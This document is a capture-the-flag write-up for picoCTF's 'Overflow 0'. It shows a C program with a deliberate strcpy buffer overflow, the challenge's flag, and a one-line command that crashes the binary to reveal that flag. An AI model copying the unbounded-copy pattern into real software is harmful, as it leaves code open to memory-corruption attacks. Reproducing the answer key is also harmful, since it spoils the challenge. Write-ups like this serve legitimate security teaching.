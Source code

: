 
# Binary Exploitation - Overflow 0 (100 points)

## Challenge

*This should be easy. Overflow the correct buffer in this [program](./vuln) and get a flag. Its also found in /problems/overflow-0_2_20c7eb49602df3c04c1f43bf9aff1faa on the shell server. [Source](./vuln.c).*

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}
```

## Flag

picoCTF{3asY_P3a5yd2b59a57}

## Walkthrough

The function void `vuln(char *input)` is vulnerable to a buffer overflow because *input* size is not controlled when strcopied in buf (which has a size of 128 bytes).

```C
void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}
```

If a segmentation fault occurs, corresponding signal will be catch resulting in the display of the flag:

```C
void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}
```

So all we have to do is to perform a big and dirty buffer overflow resulting in a seg fault to display the flag:

```bash
m3oow@pico-2019-shell1:/problems/overflow-0_2_20c7eb49602df3c04c1f43bf9aff1faa$ python -c "print('A' * 140)" | xargs ./vuln
picoCTF{3asY_P3a5yd2b59a57}
```
